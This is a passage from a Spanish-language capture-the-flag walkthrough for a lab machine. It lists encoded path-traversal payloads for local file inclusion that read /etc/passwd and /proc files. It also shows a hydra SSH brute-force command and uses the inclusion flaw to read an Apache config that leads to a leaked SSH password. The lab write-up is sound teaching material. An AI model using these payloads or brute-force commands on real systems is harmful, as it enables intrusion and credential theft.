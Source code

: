 ```bash
"/proc/net/tcp"                                                                    
"///////../../../etc/passwd"                                                       
"..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                           
"..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"              
"/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
"/proc/self/status"                                                                
"/proc/self/cmdline"                                                               
```

Listamos el contenido del archivo: **passwd**
```bash
http://172.17.0.2/vulnerable.php?page=/etc/passwd
```
### Credenciales Encontradas
Tenemos un usuario **Chocolate** valido para el sistema que le aplicaremos fuerza bruta:
```bash
hydra -l chocolate -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://172.17.0.2
```

No obtuvimos nada.

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora desde la web principal tenemos que indica que en esta carpeta: **`sites-enabled`** se encuentra este archivo: **`sitio.conf`** Ahora nos aprovechamos de esto para intentar apuntar a este archivo atraves del **LFI**

### Ejecucion del Ataque
```bash
# Comandos para explotación
http://172.17.0.2/vulnerable.php?page=/etc/apache2/sites-enabled/sitio.conf
```

Tenemos la siguiente informacion:
```bash
ServerAdmin webmaster@tusitio.com DocumentRoot /var/www/html ServerName sitio.dl ServerAlias www.sitio.dl Options Indexes FollowSymLinks AllowOverride All Require all granted # Bloquear acceso al archivo archivitotraviesito (cuidadito cuidadin con este regalin) # # Require all denied # ErrorLog ${APACHE_LOG_DIR}/error.log CustomLog ${APACHE_LOG_DIR}/access.log combined
```

Ahora revisamos que exista este archivo:
```bash
http://172.17.0.2/archivitotraviesito
```

```bash
Muy buen, has entendido el funcionamiento de un LFI y los archivos interesantes a visualizar dentro de apache, ahora te proporciono el acceso por SSH, pero solo la password, para practicar un poco de bruteforce (para variar)

lapasswordmasmolonadelacity
```
